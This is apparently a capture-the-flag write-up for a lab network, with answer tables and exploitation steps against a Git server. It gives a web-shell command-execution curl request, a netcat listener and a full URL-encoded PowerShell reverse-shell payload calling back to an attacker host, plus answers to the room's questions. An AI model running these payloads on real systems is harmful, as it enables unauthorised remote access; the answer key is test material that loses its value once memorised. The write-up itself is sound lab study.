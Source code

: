 | Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Look at the information at the top of the script. On what date was this exploit written ? | 18.01.2018 |
| Is the script written in Python2 or Python3 ? | Python2 |
| What is the name of the cookie set in the post request made on line 74(line 73 i you didn't add the shebang) of the exploit ? | csrftoken |

## Git Server : Exploitation 

> just run the python file
```
python2 43777.py
```
> after successfully running the exploit now we can run any command with curl
```
curl -X POST http://10.200.101.150/web/exploit.php -d "a=[command]"
```
> beside the above command we can also use burpsuit. just add the lines into intercepted header. and make the request type to POST
```

Content-Type: application/x-www-form-urlencoded
a=whoami

```

> starting a tcpdump listener in tun0 to see if we can ping our machine from the target machine
```
tcpdump -i tun0 icmp
```

> to get a shell connect to the ssh system and open a netcat listener 
```
firewall-cmd --zone=public --add-port 15444/tcp

./nc -lvnp 15444

```
> after the above command just run the payload (replace ip with ssh system ip and port with the above mention port) 
```
curl -X POST http://10.200.101.150/web/exploit.php -d 'a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient(%2710.200.101.200%27%2C15444)%3B%24stream%20%3D%20%24client.GetStream()%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile((%24i%20%3D%20%24stream.Read(%24bytes%2C%200%2C%20%24bytes.Length))%20-ne%200)%7B%3B%24data%20%3D%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString(%24bytes%2C0%2C%20%24i)%3B%24sendback%20%3D%20(iex%20%24data%202%3E%261%20%7C%20Out-String%20)%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20(pwd).Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20(%5Btext.encoding%5D%3A%3AASCII).GetBytes(%24sendback2)%3B%24stream.Write(%24sendbyte%2C0%2C%24sendbyte.Length)%3B%24stream.Flush()%7D%3B%24client.Close()%22'

```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| First up, let's use some basic enumeration to get to grips with the webshell : What is the hostname for this target ? | GIT-SERV |
| What operating system is this target ? | Windows |
| What user is the server running as ? | NT Authority\System |
| How many ping make it to the waiting listener ? | 0 |
